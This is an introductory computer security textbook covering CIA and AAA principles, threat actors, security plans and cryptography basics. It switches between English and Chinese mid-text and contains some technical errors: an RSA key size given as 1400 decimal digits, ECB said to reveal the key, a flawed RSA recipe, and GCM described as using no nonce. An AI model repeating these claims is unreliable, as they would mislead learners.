


# 计算机系统安全：成功规划指南


`Ryan Tolboom`


# Acknowledgements

This material was funded by the Fund for the Improvement of Postsecondary Education (FIPSE) of the U.S. Department of Education for the Open Textbooks Pilot grant awarded to Middlesex College for the Open Textbook Collaborative.

The author would like to thank New Jersey Institute of Technology (NJIT) Open Access Textbooks (OAT) project and the [Open Textbook Collaborative Project (OTC)](https://middlesexcc.libguides.com/OTCProject) for making this text possible.

The author would also like to acknowledge the contributions and hard work of:

* `Karl Giannoglou`, Adjunct Professor NJIT
* `Jacob Jones`, NJIT 2023
* `Raymond Vasquez`
* `Justine Krawiec`, Instructional Designer NJIT
* `Alison Cole`, Computing & Information Technology Librarian Felician University
* `Ricky Hernandez`, NJIT 2024
* `Jake Caceres`, NJIT 2024

# Instructional Notes

The text, labs, and review questions in this book are designed as an introduction to the applied topic of computer security. With these resources students will learn ways of preventing, identifying, understanding, and recovering from attacks against computer systems. This text also presents the evolution of computer security, the main threats, attacks and mechanisms, applied computer operation and security protocols, main data transmission and storage protection methods, cryptography, network systems availability, recovery, and business continuation procedures.

## Learning Outcomes

The chapters, labs, and review questions in this text are designed to align with the objectives [CompTIA Security+ SY0-601](https://www.comptia.jp/pdf/CompTIA%20Security+%20SY0-601%20Exam%20Objectives%20\(3.0\).pdf) exam. The objectives are reproduced here for reference:

* `1.1` Compare and contrast different types of social engineering techniques.
* `1.2` Given a scenario, analyze potential indicators to determine the type of attack.
* `1.3` Given a scenario, analyze potential indicators associated with application attacks.
* `1.4` Given a scenario, analyze potential indicators associated with network attacks.
* `1.5` Explain different threat actors, vectors, and intelligence sources.
* `1.6` Explain the security concerns associated with various types of vulnerabilities.
* `1.7` Summarize the techniques used in security assessments.
* `1.8` Explain the techniques used in penetration testing.
* `2.1` Explain the importance of security concepts in an enterprise environment.
* `2.2` Summarize virtualization and cloud computing concepts.
* `2.3` Summarize secure application development, deployment, and automation concepts.
* `2.4` Summarize authentication and authorization design concepts.
* `2.5` Given a scenario, implement cybersecurity resilience.
* `2.6` Explain the security implications of embedded and specialized systems.
* `2.7` Explain the importance of physical security controls.
* `2.8` Summarize the basics of cryptographic concepts.
* `3.1` Given a scenario, implement secure protocols.
* `3.2` Given a scenario, implement secure network architecture concepts.
* `3.3` Given a scenario, implement secure network designs.
* `3.4` Given a scenario, install and configure wireless security settings.
* `3.5` Given a scenario, implement secure mobile solutions.
* `3.6` Given a scenario, apply cybersecurity solutions to the cloud.
* `3.7` Given a scenario, implement identity and account management controls.
* `3.8` Given a scenario, implement authentication and authorization solutions.
* `3.9` Given a scenario, implement public key infrastructure.
* `4.1` Given a scenario, use the appropriate tool to assess organizational security.
* `4.2` Summarize the importance of policies, processes, and procedures for incident response.
* `4.3` Given an incident, utilize appropriate data sources to support an investigation.
* `4.4` Given an incident, apply mitigation techniques or controls to secure an environment.
* `4.5` Explain the key aspects of digital forensics.
* `5.1` Compare and contrast various types of controls.
* `5.2` Explain the importance of applicable regulations, standards, or frameworks that impact organizational security posture.
* `5.3` Explain the importance of policies to organizational security.
* `5.4` Summarize risk management processes and concepts.
* `5.5` Explain privacy and sensitive data concepts in relation to security.

## Example Schedule

A sample schedule utilizing these resources in a 15 week semester is shown below:

| Week | Chapters | Assignments | Learning Outcomes |
| --- | --- | --- | --- |
| 1 | Introduction | Lab: Think Like a Hacker<br>Introduction Review Questions | `1.1`, `1.2`, `1.6`, `2.7` |
| 2 | Cryptography | Lab: Hash it Out<br>Cryptography Review Questions | `1.2`, `1.3`, `1.6`, `2.1`, `2.4`, `2.5`, `2.8`, `3.9` |
| 3 | Malware | Lab: Malware Analysis<br>Malware Review Questions | `1.2`, `1.3`, `1.4`, `2.5`, `4.1`, `4.3`, `4.5` |
| 4 | Protocols | Lab: Scanning with nmap<br>Protocols Review Questions | `1.3`, `1.6`, `1.7`, `3.1`, `3.2`, `4.1` |
| 5 | Attacks | Quiz 1<br>Attacks Review Questions | `1.2`, `1.3`, `1.4`, `1.8`, `3.3`, `3.4`, `4.1`, `4.2` |
| 6 | Introduction<br>Cryptography<br>Malware<br>Protocols<br>Attacks | Midterm Review<br>Lab: MitM with Scapy | `1.1`, `1.2`, `1.3`, `1.4`, `1.5`, `1.6`, `1.7`, `1.8`, `2.1`, `2.4`, `2.5`, `2.7`, `2.8`, `3.1`, `3.2`, `3.3`, `3.4`, `3.8`, `3.9`, `4.1`, `4.2`, `4.3`, `4.5` |
| 7 | Introduction<br>Cryptography<br>Malware<br>Protocols<br>Attacks | | |


## 1. 简介

## 1.1. 管理风险


[RRZEicons](https://commons.wikimedia.org/wiki/File:Database-locked.svg), [CC BY-SA 3.0](https://creativecommons.org/licenses/by-sa/3.0), via Wikimedia Commons

`Information security` (infosec) 在很大程度上是防止 `unauthorized access` 访问数据的实践。未经授权的访问是指行为体获取其无权访问的数据。系统通常以非预期的方式被使用来提供此类访问。数据已成为越来越有价值的资产，他人访问数据的 `risks` 极高。因此，信息安全通常属于公司的风险管理计划，其重要性不容忽视。这一点由信息技术（IT）在公司中的典型角色已从基本服务提供商转变为拥有最高决策层席位的董事职位的事实所证明。这直接归因于 IT 资产已成为许多公司拥有的最有价值的事物。保护这些资产并管理其固有的丢失风险是信息安全专业人员的工作。

`Malicious software`，也称为恶意软件，常被用来帮助攻击者访问系统。存在多种恶意软件，但共同点是它们会对计算机系统或网络造成损害的行为。在许多攻击中，`system failure` 可能会因预期（如拒绝服务（DoS）攻击）或非预期的后果而发生。这意味着系统将不再能够执行其预期目的。系统故障是一种需要管理的严重风险。

## 1.2. 学习术语

一般来说，技术领域充满了缩写词和晦涩的词汇。不幸的是，安全领域也不例外。你应该了解的三个最重要的缩写词是 `CIA`、`AAA` 和 `DRY`。

### 1.2.1. CIA


虽然中央情报局在信息安全中确实有一定作用，但就我们的目的而言，CIA 是一个用于记忆三项基础信息安全原则的缩写词：机密性、完整性和可用性。这些理念构成了安全的基石，应该始终萦绕在你心中。

`Confidentiality` 是指保密信息的实践。例如，如果电子商务网站存储信用卡号（本身就是一种可疑的做法），这些信用卡号应保持 `confidential`。你不会希望网站的其他用户或外部人员访问你的信用卡号。可以采取许多措施来确保用户信用卡号的机密性，但目前只需理解维护机密性是安全原则之一即可。

`Integrity` 是指确保数据未被损坏或故意篡改。如前所述，数据非常有价值，但如果你无法确保数据完整可靠，它还有多大价值？在安全领域，我们努力维护完整性，以便系统以及我们为保护系统而设置的控制措施都值得信任。再次想象那个电子商务网站。如果攻击者可以随意更改系统中存储的送货地址，会发生什么？包裹可能会被送到错误地址并被盗，诚实的客户将收不到他们订购的商品，这一切都因为违反了完整性原则。

`Availability` 意味着系统应保持运行，以确保合法用户在需要时能够访问数据。从最简单的意义上说，你可以通过让系统离线并不允许任何访问来确保机密性和完整性。这样的系统将毫无用处，而这一最终原则正是为了解决这个问题。系统的设计目标是可访问的，你的安全计划的一部分应该是确保系统可访问。你需要考虑实施机密性和完整性的成本，并确保有足够的资源来保持系统正常运行。在极端情况下，拒绝服务（DoS）攻击实际上可以针对可用性。牢记这一原则，希望你可以减轻其中一些风险。

### 1.2.2. AAA


你将在许多不同的语境中遇到的另一个缩写词是 AAA。它代表 `Authentication`、`Authorization` 和 `Accounting`，用于设计和实现协议。在设计安全计划时应牢记这些概念。

身份验证是确认某人身份的过程。这可以通过用户名和密码完成，或者更常见的是通过多因素身份验证（MFA），它不仅要求你知道某些东西，还要求你拥有某些东西（指纹、钥匙扣等）。

授权是指跟踪实体可以访问哪些资源。这可以通过权限方案或访问控制列表（ACL）来完成。偶尔你会遇到一些更奇特的情况，其中授权将用户限制在特定时间段或特定 IP 地址进行交互。


Accounting refers to tracking the usage of resources. This may be as simple as noting in a log file when a user has logged in to keeping track of exactly which services and user uses and how long they use them. Accounting is incredibly important because it allows you to not only monitor for possible problems, but also inspect what has occurred `after` a problem is encountered. Accounting also allows system administrators to show irrefutably what actions a user has taken. This can be very important evidence in a court of law.

### 1.2.3. DRY

While we’re dispensing knowledge in the form of three letter acronyms (TLAs), another important acronym to keep in mind is DRY: Don’t Repeat Yourself.

> Say something once, why say it again?^(\[¹)

> 

> ~ Talking Heads Psycho Killer

This is of course not entirely literal. Just because you’ve explained something to a coworker once does `not` mean that you shouldn’t explain it again. It is meant as more of a guide for how you make use of `automation` and how you design systems. Increasingly security experts are not being asked to analyze a single system, but a network of hundreds if not thousands of systems. In this case you should make use of scripts and tools to make sure you are not manually doing the same thing over and over. Have you found a good way of testing to see if a part of a system is secure? Put it in a script so that you can reuse the test on other systems. This same logic applies to how systems are designed. Do you have a database of user login info? Reuse that database across multiple systems. In short, "Don’t repeat yourself!"

## 1.3. Hacker Culture

The term `hacker` comes from the sound that programmers would make when typing or `hacking` away at keyboards. Originally a hacker was anyone who worked feverishly at a problem on a computer and the term `cracker` was used to define people who attempted to bypass security systems. The distinction was eventually lost and a hacker has come to be the popular term for someone attempting to gain unauthorized access to data. For an interesting glimpse into early hacker culture/reasoning read [The Conscience of a Hacker](https://archive.org/stream/The_Conscience_of_a_Hacker/hackersmanifesto.txt) by The Mentor originally published in Phrack Magazine 1986.

## 1.4. Threat Actors


[Anonymous Revolution Guy Fawkes](https://pixabay.com/illustrations/anonymous-revolution-guy-fawkes-1235169/) is used under [Pixabay License](https://pixabay.com/service/license/)

To better be able to manage the risks of a data breach, it helps to be able to identify/understand the attacker or threat actor involved. Just as there are many reasons an actor may attempt to gain unauthorized access there are also many groups of threat actors.

Neophytes making use of automated tools that they may not fully understand are often referred to a `script kiddies`. You may hear other pejorative names as well such as lamer, noob, or luser, but the common thread is that these threat actors are `not` highly sophisticated. The same techniques used for automating defensive security can also be applied to automating attacks. Unfortunately this means that you may encounter actors "punching above their weight" or using complex tools while having only a rudimentary understanding of what they do.

Hacktivist are threat actors that attack to further social or political ends. These groups can be very sophisticated. The most well known hacktivist group is `Anonymous` which has been linked to several politically motivated attacks.

Organized crime is another element which may employ or support threat actors typically to make money. These groups typically have access to more resources and contacts than a solo actor. It is important to note that threat actors with roots in organized crime may find it easier to migrate into other areas of crime due to their proximity to a large criminal enterprise. For example, while it may be difficult for a script kiddie to broker the sale of valuable data, a hacker working with an organized crime syndicate may have people close to them that are familiar with the sale of stolen goods.

The last group of threat actors, and arguably the group with the most resources, are threat actors working with or for governments and nation states. These groups may have the explicit or implicit permission of their country to commit cyber crimes targeting other nations. Given the constant threat and resources available to these groups, they are referred to as an advanced persistent threat (APT). By utilizing the resources of a nation (often including its intelligence and military resources) APTs are a severe threat.

## 1.5. Security Plans

While confronting such a diverse array of actors can seem daunting at first, the key element to being successful is having a plan. A `security plan` analyzes the risks, details the resources that need to be protected, and presents a clear path to protecting them. Typically a security plan utilizes the three types of security controls available: physical, administrative, and technical.

*   Physical controls are things like door locks, cameras, or even the way rooms in a building are laid out. These things can have a dramatic impact on the overall security and should not be overlooked!

*   Administrative controls include human resources policies (HR), classifying and limiting access to data, and separating duties. It helps to have a whole-organization understanding of security to make it easier to put these controls in place.

*   Technical controls are often what new security professionals think of first. These are things like intrusion detection systems (IDS), firewalls, anti-malware software, etc. While these are an important segment of security and they are the segment that falls almost entirely within the purview of IT, it is critical to remember that these are only as strong as the physical and administrative controls that support them!

## 1.6. Tools of the Trade

With all of this talk regarding how and why hackers attack systems, the question remains, "What can be done?" There are a few tools the security professional employs that are worth mentioning at this juncture including: `user awareness`, `anti-malware software`, `backups`, and `encryption`.

User Awareness 

: A major risk, some would argue the biggest risk, is that unprepared users will run malware programs or perform other harmful actions as directed by actors looking to gain access. These actors may impersonate others or perform other `social engineering` tactics to cause users to do as they say. Probably the scariest statistic is the ease with which a massive attack requiring little effort can be performed. Threat actors do not even need to personally reach out to users, they could simply send a mass email. Through training programs and other methods of interaction a security professional can make users aware of these threats and train them to act accordingly. Raising user awareness is a critical component of any security plan. 

Anti-Malware Software 

: Given how prevalent the use of malware is a host of tools have been developed to prevent its usage. These tools may filter download requests to prevent downloading malware, monitor network traffic to detect active malware patterns, scan files for malware signatures, or harden operating system loopholes used by malware. A security plan will typically detail the type of anti-malware software being used as well as the intended purpose of its usage. 

Backups 

: Maintaining a copy of the data used by a system can be a quick solution to the problems of ransomware and other attacks aimed at causing or threatening system failure. While a backup does not solve the problem of the data being sold or used by others, it does allow for a quick recovery in many instances and should be part of a security plan. 

Encryption 


: `At its most simple, encryption obfuscates data and requires a key to make it useful. Encryption can be employed to make copies of data obtained through unauthorized access useless to attackers that do not have the key. Often, encryption and backups complement each other and fill in the use cases that each lacks individually. As such, encryption will show up multiple times and in multiple ways in an average security plan.`

## 1.7. Lab: Think Like a Hacker

For this lab, we will be engaging in a thought experiment. Imagine you are at a university that is having a student appreciation breakfast. At the entrance to the cafeteria an attendant has a clipboard with all of the student IDs listed. Students line up, show their ID, and their ID number is crossed off of the list.

Thinking like a hacker, how would you exploit this system to get extra free breakfasts? Feel free to think outside the box and make multiple plans depending on the circumstances you would encounter when go the breakfast.

Here is an example that you `can not` use:

## 1.8. Review Questions

In terms of information security, what does CIA stand for? What do each of the principles mean? 

:  

Why is it important to have a security plan? What types of controls can a security plan make use of? Give an example of each. 

:  

How do backups and encryped data compliment eachother? Explain. 

:  

# 2\. Cryptography

This chapter is meant to serve as a brief and gentle introduction to the cryptographic concepts often encountered in the field of security. It is by no means exhaustive but it should provide a basis for a better understanding of why protocols are designed the way they are. Cryptography is a method of scrambling data into non-readable text. It allows us to transform data into a secure form so that unauthorized users cannot view it.

## 2.1. Why do we need cryptography?

Cryptography is used to set up secure channels of communication, but it can also be used to provide non-repudiation of actions, basically leaving digital footprints that show someone did something. This means that cryptography allows us to provide authentication, authorization, `and` accounting (AAA).

By using a secure and `confidential` encrypted channel we can be sure that anyone who intercepts our communications cannot "listen in." This helps prevents `man-in-the-middle (MITM)` attacks. Cryptography can also be used to provide `integrity`: proving that the data is valid. With cryptography you can provide a `signature` for the data showing that the person who claims to have sent it really did send it. Cryptography also allows for `non-repudiation` as it can show that only one person was capable of sending a particular message. Lastly cryptography also allows us to perform authentication `without` storing passwords in plaintext. This is critical in an age where data breaches are increasingly common.

## 2.2. Terminology

Going forward, it is important to address some common cryptography terms as they will be used frequently:

Plaintext 

: [unencrypted information](https://en.wikipedia.org/wiki/Plaintext), data that is "in clear", or cleartext 

Cipher 

: [an algorithm for performing encryption or decryption](https://en.wikipedia.org/wiki/Cipher) 

Ciphertext 

: data that has undergone encryption 

Cryptographic algorithm 

: a series of steps to follow to encrypt or decrypt data 

Public key 

: information (typically a byte array) that can be used to encrypt data such that only the owner of the matching `private key` can unencrypt it 

Private (secret) key 

: information (typically a byte array) that can be used to decrypt data encrypted using the corresponding public key 

Caesar Cipher 

One of the most basic examples of encryption is the Caesar cipher, or substitution cipher. It is easy to understand, compute, and trivial to crack. Let’s create a table that maps every letter in the alphabet to a different letter:

| A || B || C || D || E || F || G || H || I || J || K || L || M || N || O || P || Q || R || S || T || U || V || W || X || Y || Z |

| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |

| J || G || T || Q || X || Y || A || U || C || R || V || I || F || H || O || K || L || E || D || B || W || S || Z || M || N || P |

| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |

Now creating a message is simple a matter of performing the substitutions. For example, `HELLO WORLD` becomes `UXIIO ZOEIQ`.

While this is simple to understand and set up, it is also very easy to break. You could use a frequency attack, where you analyze a large chunk of encrypted text knowing that certain letters are more frequent than others. By matching up the most frequently used ciphertext letters with their standard English equivalents you may quickly reach a solution. You could also go through all permutations of the alphabet (4E26) and see what gives you the most English words. The second attack is made much more feasible through computing.

## 2.3. Keys

Typically a series of random bytes can be used as a key to either encrypt or decrypt data. A key is used by a cryptographic algorithm to change plaintext to ciphertext. Keys may also be asymmetric in that they can only be used to perform `one` of the operations (either encryption or decryption).

It is important to have an idea of what factors make a `strong` cryptographic key. Length plays an important role. The longer the key, the hard it is to `crack` the encryption. Likewise the randomness of the data in the key also makes it stronger. If the byte sequence is somehow predictable, the length is irrelevant. Finally we have the concept of a cryptoperiod or lifetime of a key. If we are working with a system that frequently changes keys an attacker may not have enough time to crack it.

## 2.4. Mathematical Foundation

Cryptography relies largely on the concept of one-way or trap door functions. That is a process that is hard to compute in one direction, but easy to compute in the other. For example it is much easier for a computer to multiply large numbers than to determine the factors of large numbers. This is the foundation of the RSA algorithm. [A simplified version of the algorithm](https://www.cs.drexel.edu/~jpopyack/IntroCS/HW/RSAWorksheet.html) is shown below:

```
KEY GENERATION
p = a random prime number
q = a random prime number
N = p * q
r = (p - 1) * (q - 1)
K = a number which equals one when modded by r and can be factored
e = a factor of K that doesn't share factors with N
d = another factor of K that doesn't share factors with N
Your public key is N and e
Your private key is N and d

ENCRYPTION
ciphertext = (cleartext**e)%N

DECRYPTION
cleartext = (ciphertext**d)%N

EXAMPLE
p = 7
q = 13
N = 7 * 13 = 91
r = 72
K = 145 (because 145%72 = 1)
e = 5
d = 29
Public Key = 91, 5
Private Key = 91, 29
cleartext = 72 ('H' in ASCII)
ciphertext = (72**5)%91 = 11 (encrypted using N and e)
cleartext = (11**29)%91 = 72 (decrypted using N and d)
```

In order to `crack` RSA you would need to be able to factor N into its two prime numbers. While it is trivial in our simple example, imagine how difficult it would be to [factor a number with 1400 decimal digits,](https://stackoverflow.com/questions/11832022/why-are-large-prime-numbers-used-in-rsa-encryption) the current recommended keysize for RSA. You’ll notice that the algorithm only requires exponentiation, multiplication, and modulus arithmetic. At no point do you ever have to factor a large prime number to generate keys, encrypt, or decrypt. You only have to perform that operation if you’re trying to work backwards without the keys.


其他类似的单向函数基于椭圆曲线存在。事实证明，沿椭圆曲线的运动可以根据起点、终点以及简单算法的多次迭代来描述。如果你知道起点、终点以及迭代次数，就可以重建初始条件。如果你只知道起点和终点，就无法确定初始条件。

## 2.5. 哈希


哈希算法是一种单向函数，用于从明文生成哈希文本。它常用于数据验证，因为相对较小的哈希 `digest` 或 `signature` 可以证明大块数据的完整性。哈希也可用于避免以明文形式存储敏感信息。通过存储密码的哈希值，你可以检查是否输入了正确的密码，而无需存储密码本身。在发生数据泄露的情况下，只有哈希值会被泄露，攻击者无法获取密码来尝试用于其他服务。

主要使用两类哈希算法：`MD5` 和 `SHA`。`MD5` 生成 128 位哈希值，仍常用于验证数据完整性。该算法在技术上已被破解，但你可能仍会看到它在使用。`SHA` 算法族包括 `SHA-1`、`SHA-2` 和 `SHA-3`：

*   `SHA-1`: 160 位，类似于 `MD5`，由 NSA 设计，不再批准用于加密用途

*   `SHA-2`: `SHA-256` 和 `SHA-512`，非常常见，数字表示块大小，由 NSA 设计

*   `SHA-3`: 非 NSA 设计，未被广泛采用，编号方案与 `SHA-2` 类似（`SHA3-256` 等）

基于字典的攻击针对密码哈希相当常见。通常使用软件为字典中的每个单词生成哈希，然后将该哈希与受攻击机器上存储的哈希进行比较。对抗这种攻击的一种方法是通过加盐，即向每个密码添加随机位。加盐时，这些位会与哈希一起存储。这迫使基于字典的攻击必须根据盐值主动生成哈希，而不是使用所有可能哈希的存储表（彩虹表）。这可能使攻击从瞬间完成变为数天甚至数年，具体取决于密码的复杂性。

对抗针对哈希攻击的更好方法是通过秘密盐或 `pepper`。`pepper` 是添加到密码但不与生成的哈希一起存储的随机值。随机值可以存储在单独的介质中，例如硬件安全模块。

## 2.6. 对称加密


对称加密可能是最容易理解的加密方式，因为它只使用一个密钥（在此情况下，我们的密钥标记为 'A'）来加密或解密数据。双方都需要知道私钥才能通信。它确实存在安全风险，因为如果用于密钥交换的通道不安全，所有消息都可能被解密。话虽如此，鉴于它比许多其他形式的加密更简单，它常用于安全通信或存储。

### 一次性密码本

一次性密码本 (`OTP`) 是一种罕见的纸笔对称加密方案示例，无法被破解。`OTP` 的困难与所有对称加密的困难相同，即预共享密钥需要在某个时刻进行交换。

想象一下，一名囚犯想要向监狱外的某人发送加密消息。为此，他们将使用牢房里的一本《哈利·波特与魔法石》。他们想发送的消息是 "DIG UP THE GOLD"。他们翻到 "第一章：活下来的男孩"，查找该章节的前十二个字母：MR AND MRS DURS。对于消息中的每个字母，他们将其转换为字母表中的数字：4 9 7 21 16 20 8 5 7 15 12 4 (`DIG UP THE GOLD`)。他们对在书中查找的密钥做同样的操作：13 18 1 14 4 13 18 19 4 21 18 19 (`MR AND MRS DURS`)。最后，他们将两个数字相加得到密文：17 27 8 35 20 33 26 24 11 36 30 23。

如果囚犯将该密文发送给监狱外知道密钥是《哈利·波特与魔法石》第一章的人，他们将能够从密文中的每个数字减去密钥，从而发现明文消息。虽然理论上无法破解，但任何拥有密钥的人都可以恢复文本。这意味着使用像流行书籍这样的常用密钥，会让中间人轻松解码密文。毕竟，狱警可能知道囚犯牢房里的每一本书。

`OTP` 已被间谍机构使用，通常用于个人通过死点投递进行通信。在这种情况下，印有重复随机字符的表格作为密钥进行交换。

## 2.7. 非对称加密


非对称加密算法实际上在 数学基础 部分已经演示过。非对称加密有一个公钥，可以发布到任何地方，并用于加密消息，只有持有未发布的私钥的人才能解密。例如，如果你想接收加密电子邮件，你可以使你的 [GNU Privacy Guard (GPG)](https://gnupg.org/) 公钥在 [公钥服务器](https://keyserver.ubuntu.com/) 上可用。这样任何人都可以查找你的公钥，加密只有你能阅读的消息，并将密文发送给你。非对称加密绕过了通过不可信通道（如电子邮件）进行密钥交换的困难。不幸的是，如此有用系统的代价是，非对称算法通常比其对称对应物慢得多。

## 2.8. 流密码

流密码一次编码一个符号，并为每个明文符号生成一个密文符号。鉴于你通常可以使用块大小显著较小的某种块加密，流加密使用得不那么频繁。从技术上讲，`OTP` 示例在一次使用一个符号时是一种流密码。密钥一次输入一个符号，明文一次输入一个符号，并执行一个操作（在示例中为加法）来创建密文。给定合适的密钥大小和经过深入研究的算法，流密码可以和块密码一样安全。话虽如此，流密码在运行特性上通常更一致，并且通常消耗更少的内存。不幸的是，经过深入研究的算法和广泛使用的流密码并不多。

## 2.9. 块密码

块密码以块的形式读取数据，并使用相同大小的密码块来执行加密。它非常流行，有许多安全算法可供选择。不幸的是，如果输入数据不能整齐地适应相同大小的块，可能需要填充，这会占用更多空间/内存并降低密码的速度。因此，块加密通常比流加密性能更差。

### 2.9.1. 块密码操作模式

有几种方法可以创建密码块，具体取决于你如何操作，可能会发生各种攻击：

#### 电子密码本 (ECB)


[WhiteTimberwolf (SVG version)](https://commons.wikimedia.org/wiki/File:ECB_encryption.svg), Public domain, via Wikimedia Commons

最简单的操作模式，数据被分成块，每个块使用密钥进行编码。由于块以相同的方式编码，相同的块会产生相同的密文。这使得在有足够数据的情况下，更容易确定密钥是什么。

#### 密码块链 (CBC)


[WhiteTimberwolf (SVG 版本)](https://commons.wikimedia.org/wiki/File:CBC_encryption.svg)，公共领域，通过 Wikimedia Commons 提供

从初始化向量（`IV`）开始，每个块都与前一个块的部分密文进行异或运算，以创建不断变化的密文链。这意味着相同的块会产生不同的密文。这是最常见的操作模式，其弱点在于算法无法并行运行（抱歉，现代处理器），并且 `IV` 是常见的攻击目标。

#### 计数器（CTR）


[WhiteTimberwolf (SVG 版本)](https://commons.wikimedia.org/wiki/File:CTR_encryption_2.svg)，公共领域，通过 Wikimedia Commons 提供

CTR 不使用 `IV`，而是使用 nonce（所有块相同的随机数）和计数器。计数器随每个块递增，这意味着该模式可以并行运行。CTR 模式解决了 ECB 的问题，同时仍提供了一个可以在现代机器上快速运行的算法。

#### Galois/计数器模式（GCM）


[带初始化向量的 Galois 计数器模式块图，改编自 NIST 的图表](https://commons.wikimedia.org/w/index.php?curid=74845777) 根据 [CC0 1.0](https://creativecommons.org/publicdomain/zero/1.0/deed.en) 协议使用

GCM 使用类似 CTR 的计数器，但不使用 nonce。相反，`IV` 与初始计数器一起使用。GCM 还为每个块生成消息身份验证码（`MAC`）以验证块的完整性。这种组合使其成为一种现代、强健的算法，正在迅速获得采用。

## 2.10. 加密示例

### 2.10.1. RSA

RSA 是一种于 1977 年开发的非对称加密标准，至今仍非常流行。其陷门函数基于大数分解的困难性。RSA 名称来自该系统作者的姓名：Ron Rivest、Adi Shamir 和 Leonard Adleman。

### 2.10.2. 高级加密标准（AES）

AES 是一种于 1998 年开发的对称块密码，旨在取代安全性较低的数据加密标准（`DES`）。AES 对 128 位数据块进行操作，执行多轮替换-置换来加密数据。您会发现 AES 用于加密网络流量（如虚拟私有网络中的情况）、存储到磁盘的数据（磁盘加密）或保存到存储设备的计算机游戏数据。AES 是一种非常常见的密码。

### 2.10.3. 椭圆曲线密码学（ECC）

ECC 是一种非对称加密方案，速度快且易于计算。它正在迅速成为数字签名和密钥交换的首选方案，自 2004 年起开始普及。ECC 基于预定义曲线集的几何特性（一些示例可在 [此处](http://www.secg.org/sec2-v2.pdf) 找到），可用于创建陷门函数。

### 2.10.4. Diffie-Hellman 密钥交换


[原始图表：A.J. Han Vinck，杜伊斯堡-埃森大学 SVG 版本：Flugaal](https://commons.wikimedia.org/wiki/File:Diffie-Hellman_Key_Exchange.svg)，公共领域，通过 Wikimedia Commons 提供

鉴于非对称算法的速度较慢，通常像 VPN 这样的应用程序会选择使用非对称加密来交换共享密钥，然后使用该密钥与更快的对称算法（如 AES）一起使用。Diffie-Hellman 正是这样做的，并于 1976 年首次发表。Diffie-Hellman 密钥交换使用与 RSA 相同的数学概念，即幂运算和模运算，效果显著，但为了可视化发生的情况，使用了秘密颜色混合的比喻（请参见包含的图表）。重要的是要记住，由于交换介质可能较慢，DH 密钥交换旨在产生最小流量。

### 2.10.5. 数字证书

数字证书是一组用于识别公司或个人的凭据。由于非对称加密需要知道一方的公钥，数字证书包含该密钥以及所有者的 ID。那么问题就变成了，如何信任公钥确实属于声称的所有者？这就是颁发机构的作用。证书颁发机构（`CA`）对证书进行签名，表明 ID 和 `public_key` 是正确的。证书可以自签名，但这绕过了对 `CA` 的信任，通常仅用于测试。由于大多数证书用于加密 Web 流量，Web 浏览器通常会在网站使用自签名证书时警告您。

鉴于需要颁发多少证书以及验证它们所需的工作量，大多数证书并非由根 `CA` 颁发，而是由中间 `CA` 颁发。根 `CA` 将工作委托给中间 `CA`，并通过签署中间 `CA` 的密钥来表示对它们的信任。这创建了一个信任链，从颁发的证书（由中间 `CA` 签名）到中间 `CA`（由根 `CA` 签名）再到根 `CA`（由浏览器信任）。使用此信任链的工具将保留根 `CA` 证书，并根据需要从颁发它们的公司进行更新。

证书存储非常重要，虽然用户很少与其交互，但通常可以手动安装根 `CA`。[这可以用于创建代理以解密 HTTPS 流量用于调试](https://docs.telerik.com/fiddler/configure-fiddler/tasks/trustfiddlerrootcert) 或用于更恶意的目的。出于此原因，一些应用程序（例如 Facebook 移动应用）维护自己的证书存储，并防止用户向其中添加根 `CA`。


那么，如何为您的网站获取证书呢？客户将生成一个证书签名请求（`CSR`），其中包含公钥和其 ID。`CA` 将验证客户拥有该网站，并构建和签署证书。整个过程可以通过名为 [Let’s Encrypt](https://letsencrypt.org/) 的工具自动化并免费执行。

### 2.10.6. 区块链


